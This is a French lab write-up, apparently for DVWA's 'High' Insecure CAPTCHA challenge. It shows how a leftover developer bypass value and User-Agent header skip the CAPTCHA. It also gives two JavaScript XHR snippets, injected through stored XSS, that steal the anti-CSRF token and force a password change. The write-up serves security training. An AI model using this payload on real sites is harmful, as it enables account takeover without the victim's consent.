








# Niveau "High"

Quelles nouveautés pour ce niveau "High" ? :



Ici pas d'étape de confirmation, le changement du mot de passe est directement effectué :



La seule requête effectuée est la suivante :



On identifie rapidement la présence d'un jeton anti-CSRF nommé `user_token`, mais plus intéressant ici, la réponse contient un commentaire HTML :



Il s'agit sans doute d'un contournement mis en place par le développeur afin de tester sa feature sans avoir à résoudre le Captcha. On forge donc une requête dont la valeur du Captcha \(le paramètre `g-recaptcha-response` \) est `hidd3n_valu3` ainsi qu'un entête `User-Agent` possédant la valeur `reCAPTCHA` :



Le changement du mot de passe fonctionne :



A cause de la présence du jeton anti-CSRF il nous faut exploiter une faille XSS sur l'application cible afin de récupérer un jeton puis seulement effectuer l'attaque CSRF.


Pour cela, le challenge XSS Stored sera utilisé et l'injection se fera en niveau "Low". Par contre, il ne faudra pas oublier de repasser en niveau "High" pour l'exploitation du contournement du Captcha.


Voici la première requête **`XHR`** :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
    var token = xhr.response.getElementsByName('user_token')[0].value;
               
    // Ici la seconde requête
};

xhr.send();
```

Une fois le jeton récupéré, la seconde requête effectuée sera :

```javascript
var xhr2 = new XMLHttpRequest();
xhr2.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr2.setRequestHeader("User-Agent", "reCAPTCHA");
xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr2.withCredentials = true;

xhr2.send("step=1&password_new=hacked&password_conf=hacked&g-recaptcha-response=hidd3n_valu3&user_token="+token+"&Change=Change");
```


L'exploitation de la vulnérabilité ne fonctionne pas sous Chrome \(testée sur la version 78\), car le navigateur interdit la modification de l'entête `User-Agent` :



Mais cela fonctionne sur Firefox \(testée sur la version 70\) :



